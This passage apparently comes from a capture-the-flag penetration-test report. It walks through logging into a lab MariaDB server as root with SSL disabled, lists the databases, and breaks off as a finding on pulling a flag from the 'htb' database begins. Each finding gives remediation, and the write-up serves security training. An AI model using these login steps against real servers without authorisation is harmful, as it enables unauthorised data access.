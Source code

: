        ```bash
        Enter password: 
        ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
        ```
        
    2. Retry with SSL disabled:
        
        ```bash
        mysql --skip-ssl -h 10.129.95.232 -u root -p
        ```
        
        **Flag Explanation**: `--skip-ssl` disables SSL for the connection; `-h 10.129.95.232` specifies the host; `-u root` specifies the username; `-p` prompts for a password.  
        Output:
        
        ```bash
        Enter password: 
        Welcome to the MariaDB monitor.  Commands end with ; or \g.
        Your MariaDB connection id is 77
        Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10
        MariaDB [(none)]> 
        ```
        
    3. List available databases:
        
        ```bash
        SHOW DATABASES;
        ```
        
        Output:
        
        ```bash
        +--------------------+
        | Database           |
        +--------------------+
        | htb                |
        | information_schema |
        | mysql              |
        | performance_schema |
        +--------------------+
        4 rows in set (0.028 sec)
        ```
        
- **Impact**: Unauthenticated access allows full read/write control over all databases, risking data exposure or manipulation.
- **Evidence**: MySQL login and database listing above.
- **Remediation**: Enable authentication with strong passwords; configure SSL properly or disable if unsupported.

### Finding 3: Data Exfiltration from htb Database

- **Description**: Accessed the `htb` database, enumerated its tables, and retrieved a flag from the `config` table using SQL queries.
- **Severity**: Critical (successful data exfiltration).
- **Steps to Reproduce**:
    1. Switch to the `htb` database and list tables:
        